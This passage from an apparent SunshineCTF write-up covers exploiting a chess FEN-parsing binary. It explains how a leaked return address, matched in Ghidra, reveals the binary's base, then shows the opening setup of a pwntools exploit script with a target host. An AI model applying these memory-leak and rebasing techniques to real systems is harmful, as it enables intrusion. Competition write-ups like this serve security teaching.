 Nice! It does seem we have some code addresses. We just have to figure
out where exactly they point to in order to figure out the base of the
binary. I picked the address in row 6 and looked for a instruction whose
address ends in `d0d`. Here's what I found in Ghidra:

![d0d.png](img/chessfen/d0d.png)

Not only does this instruction's address end in `d0d`, but it also comes
<span id="right after a function call!"></span>**right after a function
call!** This means that the address we found is most likely the saved
return address of that `call` instruction! Great! We just need to
subtract `1d0d` from it and we should have the base of the binary.

### The exploit

    #!/usr/bin/env python3

    import argparse
    from pwn import *

    MAGIC_FEN = b"776B/3888888888 w KQkq - 0 1"
    BUF = b"\x2e\x2e\x2e\x2e\xe2\x99\x9f\x20\xe2\x99\x9e\x20\xe2\x99\x9d\x20\xe2\x99\x9c\x20\xe2\x99\x9b\x20\xe2\x99\x9a\x20\x00\x00\x00\x00\x44\x65\x65\x70\x28\x65\x72\x29\x20\x42\x6c\x75\x65\x28\x65\x72\x29\x0a\x41\x20\x28\x73\x6f\x6f\x6e\x20\x74\x6f\x20\x62\x65\x29\x20\x76\x65\x72\x79\x20\x73\x74\x72\x6f\x6e\x67\x20\x63\x68\x65\x73\x73\x20\x65\x6e\x67\x69\x6e\x65\x0a\x0a\x36\x72\x6b\x2f\x31\x70\x33\x70\x31\x70\x2f\x32\x6e\x32\x71\x32\x2f\x31\x4e\x51\x32\x70\x32\x2f\x33\x70\x34\x2f\x50\x50\x35\x50\x2f\x35\x50\x50\x31\x2f\x32\x52\x33\x4b\x31\x20\x77\x20\x2d\x20\x2d\x20\x30\x20\x32\x38\x0a\x31\x2e\x20\x65\x34\x20\x63\x35\x20\x32\x2e\x20\x63\x33\x20\x64\x35\x20\x33\x2e\x20\x65\x78\x64\x35\x20\x51\x78\x64\x35\x20\x34\x2e\x20\x64\x34\x20\x4e\x66\x36\x20\x35\x2e\x20\x4e\x66\x33\x20\x42\x67\x34\x20\x36\x2e\x20\x42\x65\x32\x20\x65\x36\x20\x37\x2e\x20\x68\x33\x20\x42\x68\x35\x20\x38\x2e\x20\x4f\x2d\x4f\x20\x4e\x63\x36\x20\x39\x2e\x20\x42\x65\x33\x20\x63\x78\x64\x34\x20\x31\x30\x2e\x20\x63\x78\x64\x34\x20\x42\x62\x34\x20\x31\x31\x2e\x20\x61\x33\x20\x42\x61\x35\x20\x31\x32\x2e\x20\x4e\x63\x33\x20\x51\x64\x36\x20\x31\x33\x2e\x20\x4e\x62\x35\x20\x51\x65\x37\x20\x31\x34\x2e\x20\x4e\x65\x35\x20\x42\x78\x65\x32\x20\x31\x35\x2e\x20\x51\x78\x65\x32\x20\x4f\x2d\x4f\x20\x31\x36\x2e\x20\x52\x61\x63\x31\x20\x52\x61\x63\x38\x20\x31\x37\x2e\x20\x42\x67\x35\x20\x42\x62\x36\x20\x31\x38\x2e\x20\x42\x78\x66\x36\x20\x67\x78\x66\x36\x20\x31\x39\x2e\x20\x4e\x63\x34\x20\x52\x66\x64\x38\x20\x32\x30\x2e\x20\x4e\x78\x62\x36\x20\x61\x78\x62\x36\x20\x32\x31\x2e\x20\x52\x66\x64\x31\x20\x66\x35\x20\x32\x32\x2e\x20\x51\x65\x33\x20\x51\x66\x36\x20\x32\x33\x2e\x20\x64\x35\x20\x52\x78\x64\x35\x20\x32\x34\x2e\x20\x52\x78\x64\x35\x20\x20\x65\x78\x64\x35\x20\x32\x35\x2e\x20\x62\x33\x20\x4b\x68\x38\x20\x32\x36\x2e\x20\x51\x78\x62\x36\x20\x52\x67\x38\x20\x32\x37\x2e\x20\x51\x63\x35\x20\x64\x34\x20\x32\x38\x2e\x20\x4e\x64\x36\x20\x66\x34\x20\x20\x32\x39\x2e\x20\x4e\x78\x62\x37\x20\x20\x4e\x65\x35\x20\x33\x30\x2e\x20\x51\x64\x35\x20\x66\x33\x20\x33\x31\x2e\x20\x67\x33\x20\x4e\x64\x33\x20\x33\x32\x2e\x20\x52\x63\x37\x20\x52\x65\x38\x20\x33\x33\x2e\x20\x4e\x64\x36\x20\x52\x65\x31\x2b\x20\x33\x34\x2e\x20\x4b\x68\x32\x20\x4e\x78\x66\x32\x20\x33\x35\x2e\x20\x4e\x78\x66\x37\x2b\x20\x4b\x67\x37\x20\x33\x36\x2e\x20\x4e\x67\x35\x2b\x20\x4b\x68\x36\x20\x33\x37\x2e\x20\x52\x78\x68\x37\x2b\x20\x31\x2d\x30\x0a\x00\x00\x00\x00\x00"

    TARGET = "./fen"
    REMOTE = ("sunshinectf.games", 22001)

    context.log_level = "debug"
    context.terminal = ["tmux", "split-window", "-hf"]
    context.binary = TARGET
